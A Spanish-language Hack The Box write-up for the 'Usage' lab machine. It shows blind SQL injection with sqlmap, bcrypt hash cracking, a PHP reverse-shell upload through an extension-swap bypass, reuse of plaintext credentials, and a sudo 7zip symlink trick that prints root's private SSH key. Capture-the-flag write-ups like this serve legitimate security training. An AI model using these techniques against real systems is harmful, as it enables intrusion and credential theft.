 ```yaml
---
title: Usage
description:  Usage es una máquina Linux fácil de manejar que presenta un sitio de blog vulnerable a inyecciones SQL, lo que permite extraer y descifrar la contraseña cifrada del administrador. Esto lleva al acceso al panel de administración, donde se explota un módulo desactualizado de Laravel para subir un web shell PHP y obtener ejecución remota de código. En la máquina, las credenciales en texto plano almacenadas en un archivo permiten el acceso SSH como otro usuario, quien puede ejecutar un binario personalizado como root. La herramienta realiza una llamada insegura a 7zip, lo que se aprovecha para leer la clave SSH privada del usuario root y comprometer completamente el sistema.
date: 2024-06-07
toc: true
pin: false
image:
 path: /assets/img/htb-writeup-usage/usage_logo.png
categories:
  - Hack_The_Box
  - Machines
tags:
  - linux
  - hack_the_box
  - fuzzing_web
  - sqli
  - sqli_blind
  - cve
  - data_leaks
  - password_attacks
  - ssh
  - http
  - tcp
  - symlink_abuse
  - sudo_abuse
  - php
  - information_gathering
  - web_analysis
  - vulnerability_exploitation
  - cve_exploitation
  - privilege_escalation


---
```

## Information Gathering

```terminal
/home/kali/Documents/htb/machines/usage:-$ sudo nmap -sS -sC -sV 10.10.11.18 
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![](/assets/img/htb-writeup-usage/usage1_1.png)

```terminal
/home/kali/Documents/htb/machines/usage:-$ echo '10.10.11.18\tusage.htb\tadmin.usage.htb' > sudo tee -a /etc/hosts
```
```terminal
/home/kali/Documents/htb/machines/usage:-$ dirb http://usage.htb/ /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-small.txt

+ http://usage.htb/login (CODE:200|SIZE:5141)
+ http://usage.htb/registration (CODE:200|SIZE:5112)
+ http://usage.htb/logout (CODE:302|SIZE:334)
```
---
## Web Analysis & Vulnerability Exploitation

![](/assets/img/htb-writeup-usage/usage1_2.png)
![](/assets/img/htb-writeup-usage/usage1_3.png)
![](/assets/img/htb-writeup-usage/usage2.png)

Luego de unas pruebas, encuentro que la direccion `/forget-password` es vulnerable a SQL injection Blind.

![](/assets/img/htb-writeup-usage/usage3_1.png)

Utilizo Sqlmap para enumerar la base de datos.

```terminal
/home/kali/Documents/htb/machines/usage:-$ sudo sqlmap -r request.txt -p email --level 5 --risk 3 --threads 10 -D database_name --tables
```
![](/assets/img/htb-writeup-usage/usage3_2.png)

Y logro encontrar un hash que le pertenece al usuario `administrator`.

```terminal
/home/kali/Documents/htb/machines/usage:-$ sudo sqlmap -r request4.txt  -p email --dbms=mysql --level=3 --risk=3 --technique=BUT -v 7 --batch -D usage_blog -T admin_users --dump --threads 3
[INFO] retrieved: admin
[DEBUG] performed 40 queries in 67.10 seconds
[DEBUG] analyzing table dump for possible password hashes
Database: usage_blog
Table: admin_users
[1 entry]
+--------------------------------------------------------------+----------
| id | name   | avatar  | password   | username | created_at     | updated_at   | remember_token      

|1|Administrator|<blank>|$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2|admin|2023-08-13 02:48:26|2024-05-30 22:06:55|kThXIKu7GhLpgwStz7fCFxjDomCYS1SmPpxwEkzv1Sdzva0qLYaDhllwrsLT|
+--------------------------------------------------------------+----------
```

```terminal
/home/kali/Documents/htb/machines/usage:-$ echo '$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2' > hash

/home/kali/Documents/htb/machines/usage:-$ hashcat --show hash
3200  | bcrypt $2*$, Blowfish (Unix)                    | Operating System

/home/kali/Documents/htb/machines/usage:-$ hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt
$2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2:whatever1
```

Consigo logearme como `administrador`. 

---
## CVE Exploitation

Analizando la pagina encuentro que la version de laravel es vulnerable, [CVE-2023-24249](https://nvd.nist.gov/vuln/detail/CVE-2023-24249).

Por tanto puedo insertar una reverse shell.

<https://pentestmonkey.net/tools/web-shells/php-reverse-shell>

![](/assets/img/htb-writeup-usage/usage4.png)

Solo permite subir un archivo de imagen a la web. Por lo que los pasos a seguir, son:

* Cambiar la extencion de la reverse shell de `.php` a `.jpg`.

* Me pongo a la escucha con Netcat por dos puertos distintos (la conexion por la shell no durara mucho tiempo, por lo que tengo que establecer otra conexion por un puerto distinto).

* Subo la shell e intercepto la peticion `POST` con Burp Suite, para cambiar manualmente la extenccion a `.php`.

* Devuelvo la peticion manipulada y navego donde esta alojada la shell `http://admin.usage.htb/uploads/img/injection.php` para ejecutarla.

* Finalmente recibo la conexion por el puerto 1234 y rapidamente creo una nueva conexion mas estable por el puerto 4444.

```terminal
/home/kali/Documents/htb/machines/usage:-$ mv injection.php injection.jpg
/home/kali/Documents/htb/machines/usage:-$ nc -lnvp 1234
/home/kali/Documents/htb/machines/usage:-$ nc -lnvp 4444
```

![](/assets/img/htb-writeup-usage/usage4_3.png)
![](/assets/img/htb-writeup-usage/usage4_4.png)

```terminal
dash@usage:~$ cat user.txt
```

---
## Privilege Escalation

![](/assets/img/htb-writeup-usage/usage5.png)

En el archivo `.monitrc` encuentro credenciales para el usuario `xander`

```terminal
dash@usage:~$ cat .monitrc
	Enable Web Access
	set httpd port 2812
     use address 127.0.0.1
     allow admin:3nc0d3d_pa$$w0rd

/home/kali/Documents/htb/machines/usage:-$ ssh xander@10.10.11.18
xander@10.10.11.18's password: 3nc0d3d_pa$$w0rd
```
El usario `xander` puede ejecutar el comando `/usr/bin/usage_management` como sudo.

```terminal
xander@usage:~$ sudo -l
```

![](/assets/img/htb-writeup-usage/usage6.png)

```terminal
xander@usage:~$ sudo /usr/bin/usage_management
	Choose an option:
	1. Project Backup
	2. Backup MySQL data
	3. Reset admin password
	Enter your choice (1/2/3): 1
```
Me muevo al directorio `/var/www/html` y creo un archivo vacio llamado `@id_rsa`

```terminal
xander@usage:/var/www/html$ touch @id_rsa
```
Con `id_rsa` creo un enlace simbólico en el directorio actual que apunta al archivo `/root/.ssh/id_rsa`. Esto significa que cualquier acceso al archivo `id_rsa` en `/var/www/html` se redirige al archivo real ubicado en `/root/.ssh/id_rsa`.

```terminal
xander@usage:/var/www/html$ ln -s /root/.ssh/id_rsa id_rsa
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
```

![](/assets/img/htb-writeup-usage/usage8.png)

```terminal
kali/home/kali/Documents/htb/machines/usage:-$ nano id_rsa
	-----BEGIN OPENSSH PRIVATE KEY-----
	b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
	QyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8Mi
	QgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3Q
	AAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDs
	H2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=
	-----END OPENSSH PRIVATE KEY-----
	
kali/home/kali/Documents/htb/machines/usage:-$ chmod 600 id_rsa
```
```terminal
kali/home/kali/Documents/htb/machines/usage:-$ ssh -i id_rsa root@10.10.11.18
Welcome to Ubuntu 22.04.4 LTS (GNU/Linux 5.15.0-101-generic x86_64)

root@usage:~# cat /root/root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/597" target="_blank">***Litio7 has successfully solved Usage from Hack The Box***</a>
{: .prompt-info style="text-align:center" }